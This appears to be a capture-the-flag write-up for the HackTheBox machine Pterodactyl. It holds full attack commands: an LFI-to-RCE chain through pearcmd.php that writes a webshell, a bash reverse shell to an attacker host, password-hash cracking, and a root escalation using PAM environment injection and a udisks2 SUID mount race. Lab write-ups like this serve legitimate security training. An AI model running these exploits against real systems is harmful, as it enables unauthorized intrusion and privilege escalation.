





# HackTheBox — Pterodactyl

Pterodactyl is a medium-difficulty Linux box that chains together two freshly-disclosed CVEs and a handful of creative enumeration steps. The attack path moves from an unauthenticated LFI in the Pterodactyl game-server panel to code execution via PEAR's argv parser, then escalates to root by abusing a SUSE-specific PAM environment trick and a race-condition SUID mount flaw in udisks2.

---

## Overview

The box presents a Minecraft server landing page at its surface, but dig a little and you find an exposed `phpinfo.php`, a changelog that lists every interesting piece of configuration, and a Pterodactyl Panel instance on a virtual host. From there, CVE-2025-49132 gives unauthenticated LFI → RCE. Database credentials cracked from the panel's user table get us SSH. Root comes from chaining CVE-2025-6018 (PAM environment injection on SUSE that tricks Polkit into treating an SSH session as a local console) with CVE-2025-6019 (udisks2 temporarily mounting a filesystem without `nosuid`/`nodev`, letting a SUID binary on that image execute as root).

---

## Reconnaissance

### Port Scan

Starting with a version-aware nmap scan:



Only two ports. Port 80 immediately redirects to `http://pterodactyl.htb/`, so the first thing to do is add host entries. A quick probe with curl confirms that `panel.pterodactyl.htb` resolves to the same IP and returns HTTP 200 with a `pterodactyl_session` cookie — virtual host enumeration pays off immediately here.

```bash
/etc/hosts additions:
<TARGET>  pterodactyl.htb panel.pterodactyl.htb play.pterodactyl.htb
```

`play.pterodactyl.htb` just 302s back to the main site — a Minecraft DNS alias, nothing exploitable.

### Web Enumeration

The main site at `pterodactyl.htb` is a Minecraft server homepage called "MonitorLand." Running Gobuster turns up two files that any pentester will want to read immediately:

```bash
gobuster dir -u http://pterodactyl.htb -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt -x php,txt
```

- `/phpinfo.php` — a full `phpinfo()` page, 73KB of configuration detail, left exposed by a developer debugging session
- `/changelog.txt` — version disclosure and setup notes

The changelog is almost comically generous:



The `phpinfo.php` page adds the critical configuration details:

| Setting | Value |
|---|---|
| `register_argc_argv` | **On** |
| `include_path` | `.:/usr/share/php8:/usr/share/php/PEAR` |
| `open_basedir` | *(no restriction)* |
| `disable_functions` | *(none)* |
| `USER` | `wwwrun` |
| PHP version | 8.4.8 |

`register_argc_argv = On` combined with PEAR in the include path is the exact condition required for the pearcmd.php RCE technique. More on that in a moment.

---

## Foothold — CVE-2025-49132 (LFI → RCE)

### Understanding the Vulnerability

Pterodactyl Panel ≤ 1.11.10 has an unauthenticated local file inclusion in the locale loading endpoint. The route is:

```
GET /locales/locale.json?locale=VALUE&namespace=VALUE
```

Under the hood, Laravel's `FileLoader::loadPath()` constructs a path like `{path}/{locale}/{namespace}.php` and passes it directly to `getRequire()` — which is just PHP's `require`. The `.json` in the URL is purely the route name; the framework appends `.php` to whatever file it actually loads. No authentication, no path sanitization.

**Fixed in:** v1.11.11

### Confirming LFI — Database Credentials

The first thing to try is pulling the Laravel database config, which lives at `config/database.php` relative to the app root:

```bash
curl -s "http://panel.pterodactyl.htb/locales/locale.json?locale=../../../pterodactyl&namespace=config/database"
```



Credentials in the first LFI probe. We also grabbed `.env` later for the `APP_KEY` and `HASHIDS_SALT`, but the database password is the immediate prize.

### Chaining to RCE via pearcmd.php

PEAR ships a CLI tool at `/usr/share/php/PEAR/pearcmd.php`. When `register_argc_argv` is On, PHP populates `$argv` from the URL query string — so loading `pearcmd.php` via the LFI while passing PEAR command arguments in the query string causes PEAR to actually execute those commands.

The `config-create` command writes a PEAR config file to an arbitrary path. We abuse this to write a PHP webshell to `/tmp/`. Then a second LFI request includes and executes that file.

The URL format is fiddly and I burned time getting it wrong the first time. My initial instinct was to put all PEAR arguments as `+`-separated values before the `&` separator, but `=` signs in the query string break argv splitting. The working approach interleaves the PEAR arguments with the `&`-separated app parameters:

```bash
# Step 1: Write a PHP file to /tmp via pearcmd config-create
# hex2bin() encoding avoids all URL-special chars in the payload
CMD="id"
HEX=$(echo -n "$CMD" | xxd -p | tr -d '\n')

curl -s -g "http://panel.pterodactyl.htb/locales/locale.json?\
+config-create+/\
&locale=../../../../../../usr/share/php/PEAR\
&namespace=pearcmd\
&/<?=system(hex2bin('${HEX}'))?>+/tmp/shell.php"

# Step 2: Include the written file to execute it
curl -s -g "http://panel.pterodactyl.htb/locales/locale.json?locale=../../../../../tmp&namespace=shell"
```

The `hex2bin()` encoding is worth calling out — it eliminates every problematic character (`+`, `&`, `=`, `<`, `>`, spaces) from the payload, making this technique reliable regardless of URL encoding edge cases.

With command execution confirmed, the reverse shell follows the same pattern:

```bash
# Encode the reverse shell
RSHELL='bash -c "bash -i >& /dev/tcp/<VPN_IP>/4444 0>&1"'
HEX=$(echo -n "$RSHELL" | xxd -p | tr -d '\n')

# Write the payload
curl -s -g "http://panel.pterodactyl.htb/locales/locale.json?+config-create+/&locale=../../../../../../usr/share/php/PEAR&namespace=pearcmd&/<?=system(hex2bin('${HEX}'))?>+/tmp/rev.php"

# Start listener, then trigger
nc -nlvp 4444 &
curl -s -g "http://panel.pterodactyl.htb/locales/locale.json?locale=../../../../../tmp&namespace=rev"
```

Shell lands as `wwwrun` (uid=474).

### Post-Foothold Enumeration

With a shell, dumping the Pterodactyl panel's user table is the obvious next step:

```bash
mariadb -u pterodactyl -p'PteraPanel' -h 127.0.0.1 -D panel -e 'SELECT id,username,email,password FROM users;'
```



Note the `-h 127.0.0.1` flag — without it, MariaDB tries a Unix socket and authentication fails for this user.

Feed both hashes to hashcat:

```bash
hashcat -m 3200 hashes.txt /usr/share/wordlists/rockyou.txt
```

`phileasfogg3` cracks to `!QAZ2wsx` — a keyboard walk pattern (left column down, then adjacent column down). `headmonitor` doesn't crack from rockyou.

SSH in as `phileasfogg3` and check sudo:

```bash
sudo -l
# (ALL) ALL — but with targetpw
```

`(ALL) ALL` looks like an instant root, but the `targetpw` flag means sudo prompts for the *target user's* password (root's), not yours. Without root's password this goes nowhere. Time to look elsewhere.

The real hint is sitting in the mailbox:

```bash
cat /var/spool/mail/phileasfogg3
```

An email from `headmonitor` warns about "unusual udisksd activity" on the system. That's a direct pointer to the udisks2 CVE chain.

---

## Privilege Escalation — CVE-2025-6018 + CVE-2025-6019

This escalation is a two-CVE chain: first trick Polkit into thinking our SSH session is a local console session (CVE-2025-6018), then abuse a udisks2 mount operation that briefly exposes a SUID binary (CVE-2025-6019).

### CVE-2025-6018 — PAM Environment Polkit Bypass (SUSE-specific)

On SUSE and openSUSE, the PAM stack processes `pam_env.so` (which reads `~/.pam_environment`) *before* `pam_systemd.so`. Polkit uses `loginctl` session properties — specifically `XDG_SEAT` and `XDG_VTNR` — to determine whether a session is "active" (local console) or "inactive" (remote). By injecting these variables into our PAM environment, our SSH session looks like a physical console session to Polkit, granting `allow_active` permissions.

```bash
echo "XDG_SEAT=seat0" > ~/.pam_environment
echo "XDG_VTNR=1" >> ~/.pam_environment
```

Disconnect and reconnect via SSH. Verify it worked:

```bash
loginctl show-session $XDG_SESSION_ID | grep -E "Active|Remote"
# Active=yes
# Remote=no   (Polkit now sees this as a local session)
```

This grants the ability to use `udisksctl` without password prompts for operations that Polkit normally restricts to console users.

### CVE-2025-6019 — udisks2 SUID Mount Race

When udisks2 performs a `Filesystem.Resize` or `Filesystem.Check` operation, libblockdev temporarily mounts the filesystem to `/tmp/blockdev.XXXXXX`. The critical flaw: this temporary mount doesn't use `nosuid` or `nodev` mount flags. Any SUID binary on the mounted filesystem executes with full root privileges.

**Step 1: Build a malicious XFS image on the attacker machine (as root):**

```bash
dd if=/dev/zero of=/tmp/xfs.image bs=1M count=300
mkfs.xfs /tmp/xfs.image
mkdir -p /tmp/xfs.mount
mount -t xfs /tmp/xfs.image /tmp/xfs.mount
cp /usr/bin/bash /tmp/xfs.mount/bash
chmod 04555 /tmp/xfs.mount/bash   # set SUID bit
umount /tmp/xfs.mount
```

**Step 2: Transfer the image to the target:**

```bash
# Attacker: serve it
python3 -m http.server 8080

# Target: fetch it
wget http://<VPN_IP>:8080/xfs.image -O /tmp/xfs.image
```

**Step 3: Create a loop device (now allowed without a password thanks to CVE-2025-6018):**

```bash
udisksctl loop-setup --file /tmp/xfs.image --no-user-interaction
# /dev/loop0 created
```

**Step 4: Spin up a background watcher to catch the SUID bash during the brief mount window:**

```bash
( while true; do
    for d in /tmp/blockdev.*/bash; do
        if [ -f "$d" ]; then
            cp "$d" /tmp/suidbash && chmod 04555 /tmp/suidbash
            "$d" -p -c "id > /tmp/root_proof.txt; cat /root/root.txt >> /tmp/root_proof.txt" 2>/dev/null
        fi
    done
done ) &
```

**Step 5: Trigger the resize operation via D-Bus:**

```bash
gdbus call --system \
  --dest org.freedesktop.UDisks2 \
  --object-path /org/freedesktop/UDisks2/block_devices/loop0 \
  --method org.freedesktop.UDisks2.Filesystem.Resize \
  0 '{}'
```

**Step 6: Check the output:**

```bash
cat /tmp/root_proof.txt
```



The `euid=0` confirms the SUID bash executed with root effective privileges. Root flag captured.

---

## Lessons Learned

**LFI path construction matters.** The `.json` in `/locales/locale.json` is just the route name — Laravel's `FileLoader` appends `.php` and uses `require`. Seeing "json" in the URL and dismissing this endpoint as non-exploitable would be a mistake. Understanding framework internals is essential to recognizing what a vulnerability actually does.

**The pearcmd URL format is specific.** All PEAR arguments must be interleaved with `&`-separated app parameters, not bunched as `+`-separated values before the first `&`. The `=` signs in later query string parameters affect how PHP populates `$argv`. This is the kind of nuance that doesn't appear in proof-of-concept scripts but absolutely matters when you're constructing requests manually.

**hex2bin() is your friend for payload encoding.** Every URL-special character (`+`, `&`, `=`, `<`, `>`, space) becomes a non-issue when the payload is hex-encoded. If you're doing any LFI-to-RCE through parameter injection, hex encoding should be your default approach.

**`(ALL) ALL` with `targetpw` is not a free win.** It looks like the most powerful sudo configuration possible, but `targetpw` means you need the target user's password. Don't chase it — find the real path.

**Read your mail.** The email about "unusual udisksd activity" was a direct hint toward the CVE chain. In a real engagement, internal messages and notes often contain exactly the kind of operational context that points you toward the most interesting attack surfaces.

**SUSE's PAM ordering is a meaningful security difference.** The `~/.pam_environment` bypass via `XDG_SEAT` and `XDG_VTNR` only works because SUSE processes `pam_env.so` before `pam_systemd.so`. This wouldn't work on Debian or RHEL defaults. OS-specific PAM configurations are worth understanding when you land on an unfamiliar distribution.

**Tight race conditions are still winnable with a busy loop.** The udisks2 mount window is brief, but a simple background `while true` loop watching for the path is sufficient. You don't need complex timing — just persistent polling.
